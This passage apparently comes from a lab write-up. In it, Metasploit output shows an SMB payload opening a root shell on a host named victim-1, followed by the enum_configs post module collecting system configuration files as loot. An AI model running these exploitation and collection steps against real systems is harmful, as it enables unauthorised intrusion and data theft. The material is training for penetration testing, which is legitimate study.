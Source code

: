 ```
[-] 192.30.131.3:445 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 192.30.131.3:445 - Loading the payload from server-side path /tmp/DfxTQwMJ.so using /tmp/DfxTQwMJ.so...
[+] 192.30.131.3:445 - Probe response indicates the interactive payload was loaded...
[*] Found shell.
[*] Command shell session 1 opened (192.30.131.2:44305 -> 192.30.131.3:445) at 2021-05-01 23:38:05 +0000

whoami
root
```

## Linux enum config

https://www.rapid7.com/db/modules/post/linux/gather/enum_configs/

> This module collects configuration files found on commonly installed applications and services, such as Apache, MySQL, Samba, Sendmail, etc. If a config file is found in its default path, the module will assume that is the file we want

Run enum config on the session opened
```
msf5 post(linux/gather/enum_configs) > options

Module options (post/linux/gather/enum_configs):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

msf5 post(linux/gather/enum_configs) > set SESSION 1
SESSION => 1
msf5 post(linux/gather/enum_configs) > run

[!] SESSION may not be compatible with this module.
[*] Running module against 192.30.131.3 [victim-1]
[*] Info:
[*]     Debian GNU/Linux 8  
[*]     Linux victim-1 5.4.0-70-generic #78-Ubuntu SMP Fri Mar 19 13:29:52 UTC 2021 x86_64 GNU/Linux
[+] shells stored in /root/.msf4/loot/20210501234021_default_192.30.131.3_linux.enum.conf_718863.txt
[+] sepermit.conf stored in /root/.msf4/loot/20210501234021_default_192.30.131.3_linux.enum.conf_087517.txt
[+] ca-certificates.conf stored in /root/.msf4/loot/20210501234021_default_192.30.131.3_linux.enum.conf_059465.txt
[+] access.conf stored in /root/.msf4/loot/20210501234021_default_192.30.131.3_linux.enum.conf_566190.txt
[+] rpc stored in /root/.msf4/loot/20210501234021_default_192.30.131.3_linux.enum.conf_192787.txt
[+] ldap.conf stored in /root/.msf4/loot/20210501234022_default_192.30.131.3_linux.enum.conf_896591.txt
[+] sysctl.conf stored in /root/.msf4/loot/20210501234022_default_192.30.131.3_linux.enum.conf_629048.txt
[*] Post module execution completed
```
